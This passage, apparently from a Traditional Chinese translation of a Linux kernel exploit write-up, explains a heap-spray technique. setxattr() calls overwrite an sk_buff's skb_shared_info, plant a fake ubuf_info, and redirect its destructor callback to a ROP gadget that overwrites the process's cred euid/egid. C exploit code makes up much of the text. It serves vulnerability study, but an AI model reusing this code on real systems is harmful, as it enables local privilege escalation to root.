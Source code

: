 </div>
<div lang="zh-Hant" dir="ltr" class="mw-content-ltr">
9.對sk_buff內核地址進行任意釋放

</div>
<div lang="zh-Hant" dir="ltr" class="mw-content-ltr">
10.調用pthread_barrier_wait()，執行32個setxattr()覆蓋skb_shared_info的堆噴pthreads

</div>
<div lang="zh-Hant" dir="ltr" class="mw-content-ltr">
11.使用recv()接收服務器套接字的網絡消息。

</div>
<div lang="zh-Hant" dir="ltr" class="mw-content-ltr">
通過skb_shared_info 進行任意寫
--------------------------------

</div>
<div lang="zh-Hant" dir="ltr" class="mw-content-ltr">
以下是覆蓋sk_buff對象的有效payload：

</div>
    #define SKB_SIZE        4096
    #define SKB_SHINFO_OFFSET    3776
    #define MY_UINFO_OFFSET        256
    #define SKBTX_DEV_ZEROCOPY    (1 << 3)
    void prepare_xattr_vs_skb_spray(void)
    {
        struct skb_shared_info *info = NULL;

        xattr_addr = spray_data + PAGE_SIZE * 4 - SKB_SIZE + 4;

        /* Don't touch the second part to avoid breaking page fault delivery */
        memset(spray_data, 0x0, PAGE_SIZE * 4);

        info = (struct skb_shared_info *)(xattr_addr + SKB_SHINFO_OFFSET);
        info->tx_flags = SKBTX_DEV_ZEROCOPY;
        info->destructor_arg = uaf_write_value + MY_UINFO_OFFSET;

        uinfo_p = (struct ubuf_info *)(xattr_addr + MY_UINFO_OFFSET);

<div lang="zh-Hant" dir="ltr" class="mw-content-ltr">
skb_shared_info駐留在噴射數據中，正好在偏移量SKB_SHINFO_OFFSET處，即3776字節。 skb_shared_info.destructor_arg指針存儲了struct ubuf_info的地址。因為被攻擊的sk_buff的內核地址是已知的，所以能在網絡緩衝區的MY_UINFO_OFFSET處創建了一個假的ubuf_info。下面是有效payload的佈局：

</div>
![](T0185ccbf9f025c74da.png "T0185ccbf9f025c74da.png")

<div lang="zh-Hant" dir="ltr" class="mw-content-ltr">
下面講講destructor_arg 回調:

</div>
     /*
         * A single ROP gadget for arbitrary write:
         *   mov rdx, qword ptr [rdi + 8] ; mov qword ptr [rdx + rcx*8], rsi ; ret
         * Here rdi stores uinfo_p address, rcx is 0, rsi is 1
         */
        uinfo_p->callback = ARBITRARY_WRITE_GADGET + kaslr_offset;
        uinfo_p->desc = owner_cred + CRED_EUID_EGID_OFFSET; /* value for "qword ptr [rdi + 8]" */
        uinfo_p->desc = uinfo_p->desc - 1; /* rsi value 1 should not get into euid */
